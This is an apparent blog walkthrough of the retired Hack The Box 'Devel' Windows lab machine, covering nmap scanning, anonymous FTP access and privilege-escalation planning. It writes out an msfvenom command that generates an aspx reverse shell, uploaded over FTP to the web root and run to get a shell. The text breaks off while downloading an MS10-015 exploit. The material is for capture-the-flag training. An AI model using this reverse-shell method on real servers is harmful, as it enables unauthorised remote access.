 # Hack The Box - Devel walkthrough

![](/photos/devel-photos/devel.png)

Today I am writing a walkthrough of the retired Devel machine of Hack The box.  
It is a Windows based machine.  
This machine has a static IP address <10.10.10.5>  
It was a nice easy and interesting machine.  
  
You have to found **user.txt** and **root.txt** flag. 

## Penetration Methodology

* Scanning
  * open ports, versions and services
* Enumeration
  * ftp enumeration
  * http enumeration
  * execute reverse shell
* Post Exploitation
  * user flag
  * root flag

## Scanning

Let's start our nmap to know about **open ports**, **versions** and **services** running on the machine.

![](/photos/devel-photos/devel-nmap.png)

Now we are done with our nmap.  

## Enumeration

As nmap shows us that ftp service is open and  
we can login to ftp with anonymous user.

![](/photos/devel-photos/ftp-acess.png)

As we can see that there is image name **welcome.png**  
Let's try we can access that image from the website or not.

**Wow**  
we can access ftp files from website. 

![](/photos/devel-photos/welcome.png)

Now let's upload our reverse shell on ftp server
But first check about the version and type of file which we can run on the website.

![](/photos/devel-photos/asp.png)

As we can see that this is a asp.net website.  
We can now upload our aspx reverse shell on ftp server.  
But first we have to generate it using **msfvenom**

`msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444 -f aspx > shell.aspx`

Now let's upload the aspx shell to ftp.

![](/photos/devel-photos/ftp-shell.png)

Let's execute our **aspx shell** from the website.  
Before executing start the listener.  

**Hey we got the shell**  
We are now **iis apppool\web**

![](/photos/devel-photos/shell.png)

## Post Exploitation

Let's enumerate for user flag  
Right now we can't read any flag so let's escalate our privelages.

![](/photos/devel-photos/denied.png)

Let's try **windwos-exploit suggestor** copy systeminfo and try with that.

as **windwos-exploit suggestor** suggests us a bunch of exploit.  
So let's try MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege.  

Firstly download the exploit..

![](/photos/devel-photos/ms.png)




